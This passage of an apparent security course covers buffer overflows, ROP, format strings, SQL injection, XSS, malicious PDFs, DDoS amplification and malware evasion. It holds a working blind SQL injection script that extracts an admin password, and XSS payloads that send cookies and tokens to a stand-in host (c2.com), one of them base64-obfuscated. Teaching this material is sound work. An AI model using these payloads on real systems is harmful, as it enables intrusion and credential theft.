   - Botnets embed headless browser engines (e.g., Puppeteer, Playwright, or modified WebKit runtimes) within infected zombie machines.
   - To defeat heuristic fraud detection, bots simulate realistic human behaviors: randomized mouse movements, natural page scrolling, random dwell times, and visiting secondary landing pages before exiting.

---

---

# Module 5: Software Vulnerabilities & Memory Corruption Exploitation

## 5.1 The x86 / x86_64 Process Memory Architecture & Stack Mechanics

To understand binary exploitation, one must first master the memory organization of an executing process. Under modern virtual memory architectures, each 32-bit or 64-bit process operates within its own flat virtual address space partitioned into distinct functional segments:

```
Low Memory Addresses:  0x00000000 (32-bit) / 0x0000000000000000 (64-bit)
+---------------------------------------------------------------------------------+
| .text Segment    | Read-Only, Executable instructions (Machine code)           |
+------------------+--------------------------------------------------------------+
| .data Segment    | Read-Write, Initialized global & static variables            |
+------------------+--------------------------------------------------------------+
| .bss Segment     | Read-Write, Uninitialized global & static variables (Zeroed) |
+------------------+--------------------------------------------------------------+
| Heap Segment     | Dynamically allocated memory (malloc/free, new/delete)       |
|                  | Grows upwards toward higher memory addresses                 |
|                  |                       |                                      |
|                  |                       v                                      |
+------------------+--------------------------------------------------------------+
|                  |                   Unallocated Space                          |
+------------------+--------------------------------------------------------------+
|                  |                       ^                                      |
|                  |                       |                                      |
| Stack Segment    | Local variables, function parameters, saved frame pointers   |
|                  | Grows downwards toward lower memory addresses                |
+---------------------------------------------------------------------------------+
High Memory Addresses: 0xFFFFFFFF (32-bit) / 0x7FFFFFFFFFFFFFFF (64-bit User Space)
```

### The Call Stack & Function Activation Records (Stack Frames)
When a thread invokes a function, a dedicated **Stack Frame** is allocated on the stack to maintain local state. The stack's growth and contraction are governed by CPU registers:
- **Stack Pointer (`ESP` / `RSP`)**: Points to the top (lowest memory address) of the active stack frame.
- **Base / Frame Pointer (`EBP` / `RBP`)**: Points to the base of the current stack frame, serving as a stable reference anchor from which local variables and incoming parameters are accessed via fixed offsets.
- **Instruction Pointer (`EIP` / `RIP`)**: Points to the memory address of the next machine instruction to be executed by the processor.



---

## 5.2 Stack-Based Buffer Overflows

A **Stack-Based Buffer Overflow** occurs when a program writes more data into a stack-allocated buffer than the buffer was dimensioned to hold, without conducting bounds checking (frequently via unsafe C functions such as `strcpy()`, `gets()`, `sprintf()`, or `scanf("%s")`).

Because the stack grows downward (toward lower addresses) while string write operations advance upward (toward higher addresses), writing beyond the buffer bounds overwrites adjacent memory sequentially:
1. First, local variables are corrupted.
2. Next, the **Saved Frame Pointer (`Saved EBP`)** is overwritten.
3. Finally, the **Saved Return Address (`Saved EIP`)** is overwritten!



### Exploit Anatomy: NOP Sleds & Shellcode
1. **The NOP Sled (`0x90`)**:
   - Because virtual memory addresses can fluctuate slightly due to environment variables or compiler differences, hitting the exact starting byte of the shellcode can be difficult.
   - Attackers prepend a sequence of hundreds of `NOP` (No Operation, `0x90` opcode) instructions before the shellcode. If the hijacked `EIP` lands anywhere within the NOP sled, the processor simply slides down the instructions until it hits the shellcode.
2. **Shellcode Execution**:
   - A compact sequence of raw machine instructions designed to execute a specific objective—typically invoking the `execve("/bin/sh")` system call on Linux or downloading and executing a payload on Windows.
   - *Constraint*: Must avoid "bad characters" such as null bytes (`0x00`), which terminate C strings prematurely.

---

## 5.3 Integer Overflows, Underflows & Signedness Flaws

Integer bugs arise when arithmetic operations produce numerical results that exceed the storage capacity of the assigned integer data type.



### Numerical Edge Cases
1. **Unsigned Integer Overflow (Wraparound)**:
   - For a 32-bit unsigned integer, the maximum value is $2^{32} - 1 = 4,294,967,295$ (`0xFFFFFFFF`). Adding 1 wraps around to `0`.
2. **Signed Integer Overflow & Sign Extension**:
   - In two's complement representation, a 32-bit signed integer interprets `0x7FFFFFFF` as $+2,147,483,647$. Adding 1 yields `0x80000000`, which represents $-2,147,483,648$.
   - If an application performs a bounds check `if (size < MAX_BUF)` where `size` is negative, the check passes, but a subsequent memory copy function expecting an unsigned size interprets the value as an enormous positive integer, corrupting memory.

---

## 5.4 Format String Vulnerabilities

Format string vulnerabilities occur when user-controlled input is passed directly as the format argument to variadic C output functions (such as `printf(user_input)` instead of `printf("%s", user_input)`).

```c
/* Vulnerable Code Example */
char user_input[100];
fgets(user_input, sizeof(user_input), stdin);
printf(user_input); // DANGEROUS: user controls format string!
```

### Exploit Capabilities of Format Specifiers
- **Information Disclosure / Memory Reading (`%x`, `%p`, `%s`)**:
  - The format string parser expects arguments corresponding to each format specifier. If specifiers are provided without corresponding arguments, the parser traverses upward through the stack, printing the contents of stack memory.
  - Passing `%08x.%08x.%08x...` dumps consecutive 32-bit values from the stack, leaking ASLR base addresses, canary values, and sensitive passwords.
  - Passing `%s` treats the value on the stack as a memory pointer, printing the ASCII string located at that arbitrary memory address.
- **Arbitrary Memory Overwrite (`%n`)**:
  - The `%n` format specifier writes the number of characters printed so far into the integer pointer supplied as an argument.
  - By manipulating the field width parameter (e.g., `%1000u%n`), an attacker can write arbitrary numerical values into target memory addresses (such as Global Offset Table - GOT entries), redirecting program execution flow.

---

## 5.5 Race Conditions & Time-of-Check to Time-of-Use (TOCTOU)

A **Race Condition** occurs in multi-threaded or multi-process systems when the correct execution of a program depends on the timing, sequence, or synchronization of uncontrollable events.

A critical subcategory is the **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability:



### TOCTOU Mechanics
- There is an unavoidable temporal latency (the "race window") between the moment a program **checks** the security state of a resource (e.g., verifying file permissions) and the moment it **uses** the resource (e.g., opening, reading, or writing).
- If an unprivileged concurrent process alters the resource state during this microsecond interval, the privileged program operates on the altered resource under the mistaken assumption that the checked conditions still hold.
- **Defenses**: Using file descriptors and atomic system calls (`open()` with `O_CREAT | O_EXCL`, `fstat()` instead of `stat()`, `openat()` with `O_NOFOLLOW`).

---
---

## 5.6 Hands-On Binary Exploitation Laboratory: From Buffer Overflow to ROP

### 1. Dissecting Vulnerable C Code
Consider the classic vulnerable utility `vuln.c`:
```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("[+] Hijacked execution! Spawning shell...\n");
    // System shell spawning code
}

void process_input(char *str) {
    char buffer[64];
    // VULNERABLE: strcpy performs zero bounds checking!
    strcpy(buffer, str);
}

int main(int argc, char *argv[]) {
    if (argc > 1) {
        process_input(argv[1]);
    }
    return 0;
}
```

### 2. Stack Layout Calculation & Offset Discovery
When `process_input` is called:
- `buffer` occupies 64 bytes (`[EBP - 64]` to `[EBP - 1]`).
- Compiler padding / alignment may add 4 to 8 bytes.
- Next 4 bytes: `Saved EBP` (Frame pointer).
- Next 4 bytes: `Saved EIP` (Target return address).
- **Exact Offset to EIP**: $64 + 4 \text{ (padding)} + 4 \text{ (Saved EBP)} = 72 \text{ bytes}$.
- Inputting 72 junk characters followed by an address (`0x08048456`) directly overwrites `EIP` with that target address!

### 3. Return-Oriented Programming (ROP) Mechanics
When hardware **DEP/NX** (Data Execution Prevention) is enabled, executing shellcode placed on the stack triggers an immediate hardware segmentation fault (`SIGSEGV`).
- **Defeating DEP/NX via ROP**:
  - The attacker does not execute code on the stack. Instead, the attacker chains together small snippets of existing executable instructions already present in the binary's `.text` segment or `libc.so`, known as **ROP Gadgets**.
  - A gadget consists of one or two machine instructions terminated by a `ret` (`0xC3`) instruction:
    ```assembly
    pop rdi ; ret       # Pops top of stack into RDI (1st argument in x86-64 ABI)
    pop rsi ; ret       # Pops top of stack into RSI (2nd argument)
    pop rdx ; ret       # Pops top of stack into RDX (3rd argument)
    syscall ; ret       # Issues kernel system call
    ```
  - By carefully arranging memory addresses on the stack, the `ret` instruction at the end of each gadget automatically pops the next gadget address into `RIP`, stringing together an entire computational program to invoke `execve("/bin/sh", 0, 0)`!

```mermaid
graph TD
    subgraph ROP_Chain_Execution["Return-Oriented Programming (ROP) Chain Execution Flow"]
        direction TB
        
        Stack_Top["RSP points to Stack"]
        G1_Addr["Address of Gadget 1 (pop rdi; ret)"]
        Arg_Val["Value: Pointer to '/bin/sh'"]
        G2_Addr["Address of Gadget 2 (pop rax; ret)"]
        Sys_Num["Value: 59 (SYS_execve syscall number)"]
        G3_Addr["Address of Gadget 3 (syscall)"]
        
        Stack_Top --> G1_Addr
        G1_Addr -->|RET executes| ExecG1["CPU jumps to Gadget 1:<br/>pop rdi (Loads '/bin/sh' into RDI)<br/>ret"]
        ExecG1 --> Arg_Val
        Arg_Val --> G2_Addr
        G2_Addr -->|RET executes| ExecG2["CPU jumps to Gadget 2:<br/>pop rax (Loads 59 into RAX)<br/>ret"]
        ExecG2 --> Sys_Num
        Sys_Num --> G3_Addr
        G3_Addr -->|RET executes| ExecSys["CPU jumps to Gadget 3:<br/>syscall (Spawns Root Shell!)"]
    end
    
    style ROP_Chain_Execution fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style ExecG1 fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style ExecG2 fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style ExecSys fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

---

# Module 6: Web Application Attacks & Network Denial of Service

## 6.1 SQL Injection (SQLi) Mechanics & Defenses

**SQL Injection (SQLi)** occurs when untrusted user input is directly concatenated into a dynamic database query string without proper sanitization, validation, or parameterization, allowing an attacker to manipulate the underlying database parser.

```mermaid
graph TD
    subgraph SQLi_Pipeline["SQL Injection Query Construction Breakdown"]
        direction TB
        
        Code["Developer Dynamic Query Construction:<br/>query = 'SELECT * FROM users WHERE user="' + input_user + '" AND pass="' + input_pass + '";'"]
        Input["Attacker Input:<br/>input_user = admin' -- <br/>input_pass = irrelevant"]
        Result["Resulting Query Evaluated by SQL Engine:<br/>SELECT * FROM users WHERE user='admin' -- ' AND pass='irrelevant';"]
        Bypass["Parser Interpretation:<br/>1. Compares user == 'admin'<br/>2. Treats '--' as comment delimiter<br/>3. Ignores remaining password verification entirely!"]
        
        Code --> Input --> Result --> Bypass
    end
    
    style SQLi_Pipeline fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Input fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Bypass fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Classification of SQLi Attacks
1. **In-Band (Classic) SQLi**:
   - The attacker uses the same channel to launch the attack and extract results.
   - *Error-Based SQLi*: Intentionally triggers database runtime errors (e.g., divide by zero, type conversion failure) that output sensitive schema or table names in the HTTP response.
   - *UNION-Based SQLi*: Uses the `UNION` operator to append the results of an attacker-crafted query to the original query results:
     ```sql
     ' UNION SELECT null, username, password FROM users --
     ```
2. **Inferential (Blind) SQLi**:
   - The application does not return database error messages or query results directly on the web page.
   - *Boolean-Based Blind*: Injects boolean propositions (e.g., `' AND 1=1 --` vs. `' AND 1=2 --`). Observes differences in page rendering, response lengths, or HTTP status codes to reconstruct data bit-by-bit.
   - *Time-Based Blind*: Injects database delay functions (e.g., `WAITFOR DELAY '0:0:5'` in SQL Server or `pg_sleep(5)` in PostgreSQL). If the page response delays by 5 seconds, the evaluated condition is true.
3. **Out-of-Band SQLi**:
   - Used when blind injection is unviable. The injected query commands the database server to issue external DNS lookups or HTTP requests containing exfiltrated data back to an attacker-controlled server.

### Definitive Defensive Strategy: Prepared Statements
Parameterized queries (Prepared Statements) separate SQL code logic from data literals. The database engine compiles the query template *before* inserting user input:
```python
# SECURE: Prepared Statement with Parameter Binding
cursor.execute("SELECT * FROM users WHERE user = %s AND pass = %s", (input_user, input_pass))
```
Even if `input_user` contains `' OR '1'='1`, the database treats the entire string purely as a literal value for `user`, preventing query structure alteration.

---

## 6.2 Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** is a client-side code injection vulnerability occurring when a web application incorporates untrusted user input into its rendered HTML output without contextual sanitization or encoding, causing the victim's web browser to execute malicious JavaScript.

```mermaid
graph TD
    subgraph XSS_Classification["Taxonomy of Cross-Site Scripting (XSS)"]
        direction TB
        
        subgraph Stored["1. Stored (Persistent) XSS"]
            S_Attacker["Attacker submits payload:<br/><script>fetch('http://c2.com?c='+document.cookie)</script>"]
            S_DB[("Database<br/>(Stores payload in comments/profile)")]
            S_Victim["Victim views page<br/>(Payload fetched from DB & executed)"]
            S_Attacker --> S_DB --> S_Victim
        end
        
        subgraph Reflected["2. Reflected (Non-Persistent) XSS"]
            R_Link["Phishing Link with injected parameter:<br/>http://site.com/search?q=<script>..."]
            R_Server["Web Server reflects query verbatim in HTML response"]
            R_Victim["Victim clicks link; script executes in browser"]
            R_Link --> R_Server --> R_Victim
        end
        
        subgraph DOM["3. DOM-Based XSS"]
            D_Client["Vulnerable Client-Side JavaScript:<br/>document.getElementById('msg').innerHTML = location.hash;"]
            D_Exec["Executed entirely in client DOM without server interaction!"]
            D_Client --> D_Exec
        end
    end
    
    style XSS_Classification fill:#fcfcfc,stroke:#34495e,stroke-width:2px;
    style Stored fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Reflected fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style DOM fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### Impact & Defenses
- **Exploitation Impact**: Session hijacking (exfiltrating `document.cookie`), credential harvesting, keylogging, keystroke capture, and client-side malware delivery.
- **Defensive Measures**:
  - *Contextual Output Encoding*: HTML entity encoding, JavaScript encoding, attribute encoding.
  - *`HttpOnly` Cookie Flags*: Prevents client-side JavaScript from accessing session cookies via `document.cookie`.
  - *Content Security Policy (CSP)*: HTTP response headers (`Content-Security-Policy: default-src 'self'`) restricting which domains can serve executable scripts and prohibiting inline script execution.

---

## 6.3 Malicious PDF Document Exploitation

Adobe Portable Document Format (PDF) files are not static electronic paper; they are complex document containers supporting embedded fonts, vector graphics, form scripts, embedded Flash/3D models, and dynamic JavaScript execution.

```mermaid
graph TD
    subgraph PDF_Object_Hierarchy["Anatomy of a Malicious PDF File"]
        direction TB
        
        Header["%PDF-1.7 (PDF Header)"]
        Obj1["1 0 obj: Catalog Dictionary"]
        Obj2["2 0 obj: Pages Tree"]
        Obj3["3 0 obj: Page Object"]
        Obj4["4 0 obj: Stream with FlateDecode Compression<br/>(Contains Obfuscated Embedded JavaScript Payload)"]
        Obj5["5 0 obj: OpenAction / Launch Dictionary<br/>(Triggers JavaScript upon Document Open!)"]
        XREF["xref (Cross-Reference Table)"]
        Trailer["trailer << /Root 1 0 R >> %%EOF"]
        
        Header --> Obj1 --> Obj2 --> Obj3
        Obj1 --> Obj5
        Obj5 --> Obj4
        Obj3 --> XREF --> Trailer
    end
    
    style PDF_Object_Hierarchy fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Obj4 fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Obj5 fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
```

### PDF Exploitation Mechanisms
1. **The `/OpenAction` & `/AA` (Additional Actions) Dictionaries**:
   - Instructs the PDF reader application to automatically execute embedded scripts or external launch commands the instant the document is opened, without requiring user consent.
2. **Stream Obfuscation (`/FlateDecode`, `/ASCIIHexDecode`)**:
   - Attackers compress and encode malicious shellcode or heap-spray scripts within stream objects, defeating basic static keyword scanning.
3. **Heap Spraying via PDF JavaScript**:
   - Embedded JavaScript allocates thousands of memory chunks containing NOP sleds and shellcode across the PDF reader's heap address space.
   - When a subsequent memory corruption vulnerability (such as a use-after-free or buffer overflow in a font rendering engine) is triggered, jumping to an arbitrary heap address reliably hits the sprayed shellcode.

---

## 6.4 Denial of Service (DoS) & Network Amplification Attacks

**Denial of Service (DoS)** attacks aim to render a computing system, application, or network link inaccessible to legitimate users by consuming critical resources (CPU cycles, memory pools, connection state tables, or network link bandwidth).

```mermaid
sequenceDiagram
    autonumber
    participant Attacker as Attacker Botnet
    participant Reflector as Vulnerable Amplification Reflectors<br/>(Open DNS / NTP / Memcached Servers)
    participant Victim as Target Victim Infrastructure

    Attacker->>Reflector: Emits spoofed UDP requests with Victim Source IP<br/>(e.g., DNS 'ANY' Query or NTP 'monlist')<br/>Request Size: 64 Bytes
    Note over Reflector: Reflector processes request & generates massive reply
    Reflector-->>Victim: Floods Victim with Amplified Responses!<br/>Response Size: 3,200 Bytes (50x Amplification!)<br/>Saturates Victim Ingress Bandwidth Completely
```

### Primary DoS / DDoS Mechanisms
1. **TCP SYN Flood**:
   - Exploits the TCP 3-way handshake (`SYN` $\rightarrow$ `SYN-ACK` $\rightarrow$ `ACK`).
   - The attacker floods the target with `SYN` packets from spoofed IP addresses.
   - The server allocates a Transmission Control Block (TCB) in its **SYN backlog queue** and responds with `SYN-ACK`. Because the source IP is spoofed, the final `ACK` never arrives.
   - The server's backlog queue fills to capacity, rejecting legitimate incoming connection requests.
   - *Mitigation*: **SYN Cookies** (encodes connection state in the initial TCP sequence number, eliminating the need to allocate memory until the final `ACK` is received).
2. **UDP Reflection & Amplification Attacks**:
   - Exploits connectionless UDP protocols where source IPs can be trivially spoofed.
   - *DNS Amplification*: Requests DNS `ANY` records yielding amplification factors of $20\times$ to $50\times$.
   - *NTP Amplification*: Exploits the legacy `monlist` command on NTP servers, returning the addresses of the last 600 clients that queried the server, yielding amplification factors up to $556\times$.
   - *Memcached Amplification*: Unprotected Memcached servers over UDP yielded amplification factors exceeding $50,000\times$.

---
---

## 6.5 Web Application Security Laboratory: Advanced Payloads & Defense

### 1. SQL Injection Payload Matrix & Obfuscation
Adversaries bypass simple Web Application Firewall (WAF) regex signatures using advanced SQL obfuscation:
- **Whitespace Neutralization**:
  ```sql
  -- Replacing space with inline comments or URL encoding:
  SELECT/**/username/**/FROM/**/users/**/WHERE/**/id=1;
  SELECT%20username%20FROM%20users;
  ```
- **Time-Based Blind Exfiltration Algorithm**:
  Attackers automate database extraction using automated Python scripts implementing binary search:
  ```python
  import requests, time

  target = "http://victim.com/profile?id="
  extracted = ""

  for pos in range(1, 32):
      low, high = 32, 126
      while low <= high:
          mid = (low + high) // 2
          payload = f"1 AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE user='admin'),{pos},1))>{mid}, sleep(3), 0)"
          start = time.time()
          requests.get(target + payload)
          if time.time() - start >= 3:
              low = mid + 1
          else:
              high = mid - 1
      extracted += chr(low)
  print(f"[+] Recovered Password: {extracted}")
  ```

### 2. Cross-Site Scripting (XSS) Filter Evasion
When web applications implement naive blacklist filters (e.g., stripping `<script>` tags):
- **Case Inversion**: `<sCrIpt>alert(1)</ScRipt>`
- **Non-Script Event Handlers**:
  ```html
  
  <svg onload="fetch('http://c2.com?k='+localStorage.getItem('token'))">
  <body onresize="alert(1)">
  <input type="text" autofocus onfocus="alert(1)">
  ```
- **JavaScript URI Schemes**:
  ```html
  <a href="javascript:eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9jMi5jb20/Yz0iK2RvY3VtZW50LmNvb2tpZQ=='))">Click to Claim Prize</a>
  ```

---

# Module 7: Malware Taxonomy, Evasion & Persistence Techniques

## 7.1 Malware Taxonomy: Structural Classifications

Malicious software (malware) encompasses any binary program, script, or firmware payload designed to compromise the confidentiality, integrity, or availability of a computing system without the owner's informed consent.

```mermaid
graph TD
    subgraph Malware_Taxonomy["Malware Structural Taxonomy"]
        direction TB
        
        Virus["1. Virus<br/>• Self-replicating parasitic code<br/>• Requires human action to execute (infects host files)"]
        Worm["2. Worm<br/>• Autonomous self-replicating program<br/>• Propagates over network via unpatched exploits"]
        Trojan["3. Trojan Horse<br/>• Masquerades as legitimate software<br/>• Carries concealed malicious payload"]
        Spyware["4. Spyware / Keylogger<br/>• Covertly monitors user activity<br/>• Exfiltrates keystrokes, credentials, screen captures"]
        Ransomware["5. Ransomware<br/>• Encrypts user files using asymmetric crypto<br/>• Demands cryptocurrency payment for decryption keys"]
        
        Virus --- Worm --- Trojan --- Spyware --- Ransomware
    end
    
    style Malware_Taxonomy fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Virus fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Worm fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Trojan fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Ransomware fill:#f4ecf7,stroke:#8e44ad,stroke-width:2px;
```

### Detailed Structural Profiles
1. **Viruses**:
   - Parasitic code that inserts itself into legitimate executable files (`.exe`, `.dll`) or document macros.
   - *File Infectors*: Overwrite code sections or append code to the end of PE files, modifying the entry point in the PE header to jump to the virus code first before returning to legitimate code.
2. **Worms (e.g., Morris, Code Red, WannaCry)**:
   - Self-contained, autonomous malware that replicates across networks without human intervention.
   - Scans subnets for vulnerable exposed services (e.g., SMB vulnerability MS17-010 in WannaCry), executes remote shellcode, transfers its payload, and spawns new scanning threads.
3. **Trojans**:
   - Disguised as helpful utilities (PDF converters, game cracks, system optimizers). Contains a hidden payload, often a Remote Access Trojan (RAT) providing reverse command shells, webcam access, and file exfiltration.

---

## 7.2 Evasion & Code Obfuscation: Packers, Crypters & Polymorphism

To evade static signature-based detection deployed by Antivirus (AV) and Intrusion Detection Systems (IDS), malware authors employ sophisticated cryptographic and structural transformations.

```mermaid
graph TD
    subgraph Obfuscation_Evolution["Evolution of Malware Code Obfuscation"]
        direction TB
        
        subgraph Static_Signature["1. Plain Malware"]
            PlainCode["Plain Machine Code (Static Hash / Byte Signatures Match)"]
        end
        
        subgraph Packed_Binary["2. Packed / Crypt Encrypted Binary"]
            Stub["Unpacking Stub (Plaintext)"]
            Compressed["Encrypted / Compressed Payload Blob"]
            Stub -->|Decrypts at Runtime in RAM| Execution["Executes Payload in Memory"]
        end
        
        subgraph Polymorphic["3. Polymorphic Malware Engine"]
            PolyStub["Constantly Mutating Decryption Stub<br/>(Junk instructions, register swaps)"]
            PolyBody["Encrypted Body (Different Key per Infection)"]
            PolyStub -->|Decrypts with New Key| PolyExec["Executes Payload"]
        end
        
        subgraph Metamorphic["4. Metamorphic Malware Engine (No Decryption Stub!)"]
            MetaEngine["Mutation Engine completely rewrites body on every replication:<br/>• Instruction Substitution (add eax, 1 <-> inc eax)<br/>• Register Renaming<br/>• Code Transposition (Junk JMPs)"]
        end
        
        Static_Signature --> Packed_Binary --> Polymorphic --> Metamorphic
    end
    
    style Obfuscation_Evolution fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Static_Signature fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Packed_Binary fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Polymorphic fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Metamorphic fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Obfuscation Architectures
1. **Packers & Crypters (e.g., UPX, custom packers)**:
   - The original PE executable is compressed or encrypted and embedded as raw data inside a new PE binary.
   - At runtime, a lightweight **unpacking stub** allocates memory (`VirtualAlloc`), decrypts the original binary into memory, resolves import tables, and transfers execution to the unpacked entry point.
2. **Polymorphic Malware**:
   - The body of the malware is encrypted with a unique symmetric key for every infected file.
   - The decryption stub itself is mutated using a **polymorphic engine**: swapping registers, inserting dead code (`NOP`, `sub eax, 0`), and substituting equivalent instructions, altering the byte signature on every iteration.
3. **Metamorphic Malware**:
   - The most complex obfuscation form. Metamorphic malware completely disassembles, rewrites, and reassembles its own machine code without utilizing encryption stubs.
   - Every generation looks entirely different at the assembly level while remaining semantically identical in behavior.

---

## 7.3 Anti-Analysis, Anti-Debugging & Virtual Machine Detection

Modern security defenses analyze suspicious files inside automated sandbox environments (e.g., Cuckoo Sandbox, Any.Run) running inside virtual machines. Malware incorporates defensive checks to detect analysis environments and terminate execution or alter behavior.

```mermaid
graph TD
    subgraph Anti_Analysis_Checks["Malware Evasion & Environment Detection Flowchart"]
        direction TB
        
        Start["Malware Execution Starts"]
        
        subgraph Checks["Evasion Checks"]
            Check1{"IsDebuggerPresent() or<br/>PEB.BeingDebugged == 1?"}
            Check2{"CPUID Hypervisor Bit Set or<br/>MAC Vendor == VMware/VirtualBox?"}
            Check3{"Artifact Check:<br/>Registry Keys / Sandbox Drivers Present?"}
            Check4{"Human Interaction Check:<br/>Mouse Movement / Cursor Distance > 0?"}
        end
        
        Start --> Check1
        Check1 -->|YES: Debugger Detected| Benign["Execute Benign Dummy Behavior<br/>(Exit Program Immediately)"]
        Check1 -->|NO| Check2
        Check2 -->|YES: VM Detected| Benign
        Check2 -->|NO| Check3
        Check3 -->|YES: Sandbox Detected| Benign
        Check3 -->|NO| Check4
        Check4 -->|NO: Headless Sandbox| Benign
        Check4 -->|YES: Real Human Workstation| Malicious["Deploy Real Malicious Payload<br/>(Decrypt C2, Exfiltrate Data)"]
    end
    
    style Anti_Analysis_Checks fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Benign fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
    style Malicious fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### Detection Methodologies
1. **Anti-Debugging Techniques**:
   - *PEB BeingDebugged Flag*: Inspects the Process Environment Block (`fs:[0x30]` on x86). If `BeingDebugged == 1`, a debugger is attached.
   - *`CheckRemoteDebuggerPresent()`*: Win32 API invoking kernel debug queries.
   - *Hardware Breakpoint Detection*: Inspects debug registers (`DR0`–`DR3`) using `GetThreadContext()`.
   - *RDTSC Timing Checks*: Executes the `RDTSC` (Read Time-Stamp Counter) instruction before and after a code block. If execution takes millions of cycles (due to an analyst single-stepping through instructions), the malware halts.
2. **Virtual Machine & Sandbox Detection**:
   - *Hypervisor Artifacts*: Scans the file system for sandbox drivers (`vmmouse.sys`, `vboxguest.sys`) and registry keys (`HARDWARE\DEVICEMAP\Scsi\Scsi Port 0\Scsi Bus 0\Target Id 0\Logical Unit Id 0\Identifier` containing "VBOX" or "VMware").
